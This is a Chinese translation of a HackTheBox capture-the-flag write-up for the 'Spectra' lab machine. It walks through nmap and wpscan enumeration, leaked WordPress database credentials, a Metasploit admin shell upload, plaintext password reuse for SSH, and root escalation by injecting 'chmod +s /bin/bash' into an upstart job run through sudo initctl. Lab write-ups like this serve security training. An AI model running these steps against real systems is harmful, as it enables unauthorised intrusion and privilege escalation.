



# 黑客盒子报道:光谱

> 原文：<https://infosecwriteups.com/hackthebox-writeup-spectra-83ecdeeae568?source=collection_archive---------2----------------------->


这是一个由易到难的盒子，要求攻击者枚举一个网站，并找到一个带有隐藏凭据的文件来获得立足点。为了提升用户权限，攻击者需要查找包含凭据的文件。最后，为了获得 root 权限，攻击者必须利用二进制文件 */sbin/initctl。*

# 列举

我开始通过用 **NMAP** 执行快速扫描来枚举目标机器，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.229PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
```

扫描发现三个端口打开(即端口 22、80 和 3306)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -p 22,80,3306 -oN nmap-report 10.10.10.229PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```

我可以看到有一个网站被托管在 80 端口，并决定开始寻找一个初步的立足点。

# HTTP —端口 80 分析

导航到[*http://10 . 10 . 10 . 229/*](http://10.10.10.229/)，找到如下网页:



索引页

当我尝试页面上的链接时，我收到一个错误:



错误页面

我需要将 **spectra.htb** 添加到我的 */etc/hosts* 文件中。添加后，我可以导航到网页上的链接。访问第一个链接时，我可以看到有一个 WordPress 站点正在运行:



WordPress 网站

我决定使用 **wpscan** 为用户枚举网站，并找到一个名为 **administrator** 的用户:

```
wpscan --url [http://10.10.10.229/main](http://10.10.10.229/main) -e u[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

我还试图列举网站上任何易受攻击的插件，但这并没有透露任何有用的信息。

```
wpscan --url [http://10.10.10.229/main](http://10.10.10.229/main) -e ap[+] Enumerating All Plugins (via Passive Methods)[i] No plugins Found.
```

我决定继续前进，检查之前在索引页面上看到的 */testing* 链接。在测试目录中，我发现了一个名为 **wp-config.php.save 的文件。**这个文件看起来是空的，但是如果您查看页面源代码，您会看到它包含一个数据库的凭证:

```
define( ‘DB_NAME’, ‘dev’ );/** MySQL database username */
define( ‘DB_USER’, ‘devtest’ );/** MySQL database password */
define( ‘DB_PASSWORD’, ‘devteam01’ );
```

我试着用上面找到的凭证登录到 **MySQL** 数据库和**web-login.php**但是失败了。根据之前的 WordPress 扫描，我还知道发现了一个名为 **administrator** 的用户名。我尝试使用以下凭据登录 web-login.php 页面，并获得成功:

```
 administrator:devteam01
```

我使用了 **msfconsole** 来获得一个反向 shell(在 meterpreter shell 出现之前，可能需要重复几次):

```
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 10.10.10.229
rhosts => 10.10.10.229
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => devtest
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploitmeterpreter >
```

为了得到一个合适的 shell，我使用了 **shell** 命令，然后切换到 */tmp* 目录。然后，我使用 python 获得了一个稳定的 shell:

```
cd /tmp
python3 -c “import pty;pty.spawn(‘/bin/bash’)”bash-4.3$
```

我花了一些时间寻找提升权限的方法，最终，我在 */opt* 目录中找到了一个有趣的文件，名为 **autologin.conf.orig** :

```
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "[chromium-os-dev@chromium.org](mailto:chromium-os-dev@chromium.org)"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

浏览内容，脚本显示在*/mnt/stateful _ partition/etc/autolog in*中有一个密码文件。导航到这个位置，我发现了一个名为 **passwd** 的文件，其中包含一个密码:

```
bash-4.3$ cat passwdSummerHereWeCome!!
```

我尝试以一个目录在 */home* 的用户的身份 SSH 到目标机器，并且能够以用户 **katie 的身份登录。**然后我就可以获得用户标志了:

```
$ ssh katie@10.10.10.229-bash-4.3$ whoami
katie-bash-4.3$ cat user.txt
e89d27fe195e........
```

# 权限提升

我检查了用户 **katie** 可以使用 root 权限运行哪些命令，发现用户可以在没有密码的情况下以 root 身份运行二进制文件 */sbin/initctl* :

```
$ sudo -lUser katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

以下链接很好地解释了如何利用这一点来提升权限:

[](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9) [## initctl 的 SUDO 权限|权限提升技术| Ishara Abeythissa

### initctl 允许系统管理员与 Upstart 链接和通信。能够管理用户作业。作为例子，如果…

isharaabeythissa.medium.com](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9) 

我首先检查了位于 **/etc/init** 目录中的哪些配置文件可以注入恶意代码:

```
-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
```

浏览这些文件，我可以看到用户 katie 可以写入上面列出的文件，因为该用户属于 developers 组:

```
$ iduid=20156(katie)gid=20157(katie)groups=20157(katie),20158(developer)
```

我注入了一些代码，为所有用户设置了 SUID 权限 **/bin/bash** ，并允许我以 root 用户身份接管 bash shell:

```
echo "script
> 
>     chmod +s /bin/bash
> 
> end script" >> test.conf
```

然后，我用 root 权限启动了**测试**服务，并启动了 bash:

```
$ sudo /sbin/initctl start test
test start/running, process 4877# -p option lets bash keep the effective userid it is launched with, wheras without it, it will set the effective uid to the actual uid (your user).$ /bin/bash -p
bash-4.3#bash-4.3# cat /root/root.txt
d44519713b88.........
```

在得到一个根 shell 之后，我能够得到根标志，如上图所示。谢谢你一直读到最后，祝你黑客快乐😄！